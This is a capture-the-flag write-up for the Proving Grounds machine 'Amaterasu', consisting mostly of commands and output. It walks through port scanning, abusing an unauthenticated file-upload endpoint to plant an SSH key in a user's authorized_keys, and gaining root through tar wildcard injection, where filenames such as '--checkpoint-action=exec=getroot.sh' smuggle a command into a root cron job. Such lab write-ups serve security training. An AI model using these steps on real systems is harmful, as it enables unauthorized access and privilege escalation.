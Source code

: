 ```yaml
---
layout: default
title: Amaterasu
parent: Proving Grounds Play
nav_order: 1
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.249

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.45.217
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey:
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open  unknown
Werkzeug/2.2.3 Python/3.9.13
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
|_http-title: My test page
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.53 (Fedora)

```

# Enumeration

---

## 21 | FTP

Enters "passive mode" everytime I enter a command. Appears to be a deadend.

## 33414 | Werkzeug/2.2.3 Python/3.9.13

Running Gobuster we find _/help_ directory.

![help](../../../assets/images/ctfs/proving_grounds/amaterasu/help.png)

It appears we can use a CURL POST request to upload a file to _/file-upload_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file=@"test.txt" -F filename="test.txt" http://192.168.160.249:33414/file-upload
HTTP/1.1 201 CREATED
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Sun, 12 Nov 2023 23:10:50 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"message":"File successfully uploaded"}

```

Checking the Flask server we can see the file was uploaded.

![test](../../../assets/images/ctfs/proving_grounds/amaterasu/test.png)

We have LFI and now need to determine how best to exploit this.

# Exploitation

---

Checking the _/home_ directory we see there is a user directory _/alfredo_.

We can attempt to generate a new _id_rsa_ file to replace his existing RSA private key for SSH authentication.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vagrant/.ssh/id_rsa): /home/vagrant/Documents/PG/PLAY/amatera
su/id_alfredo
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/vagrant/Documents/PG/PLAY/amaterasu/id_alfredo
Your public key has been saved in /home/vagrant/Documents/PG/PLAY/amaterasu/id_alfredo.pub

```

Now upload to the _/home/aldredo_ directory.

We need to upload as a _.txt_ file and remove the file extension on the remote directory where it is being uploaded.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ mv id_alfredo.pub id_alfredo.txt

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ curl -F filename="/home/alfredo/.ssh/authorized_keys" -F file=@id_alfredo.txt http://192.168.160.249:33414/file-upload
{"message":"File successfully uploaded"}


```

![authorized](../../../assets/images/ctfs/proving_grounds/amaterasu/authorized.png)

Now we can authenticate to the SSH service as _alfredo_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh -p 25022 -i id_alfredo alfredo@192.168.160.249
Last failed login: Sun Nov 12 18:28:25 EST 2023 from 192.168.45.217 on ssh:notty
There were 3 failed login attempts since the last successful login.
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)

```

# Post-Exploitation

---

## Check Cron Jobs

```bash
[alfredo@fedora ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh

```

Check the _/usr/local/bin/backup-flask.sh_ job that is running every minute.

```bash
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

```

This job is running _tar_ with the astrisk.

This allows for an exploitation technique known as _Bash Gobbling_

Let's create a malicious script that copies the _/home/alfredo/.ssh/authorized_keys_ to \*/root/.ssh/authorized_keys"

```bash
[alfredo@fedora ~]$ cd restapi
[alfredo@fedora restapi]$ echo '#!/bin/bash' >> getroot.sh
[alfredo@fedora restapi]$ echo 'cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys' >> getroot.sh
[alfredo@fedora restapi]$ cat getroot.sh#!/bin/bash
cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys
```

Now we can tamper with the backup process:

```bash
[alfredo@fedora restapi]$ touch ./--checkpoint=1 ./--checkpoint-action=exec=getroot.sh
```

Wait a few minutes for the cronjob to execute and then SSH into the system as the root user.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh -p 25022 -i id_alfredo root@192.168.213.249
Web console: https://fedora:9090/

Last login: Tue Mar 28 03:21:22 2023
[root@fedora ~]# id
uid=0(root) gid=0(root) groups=0(root)

```
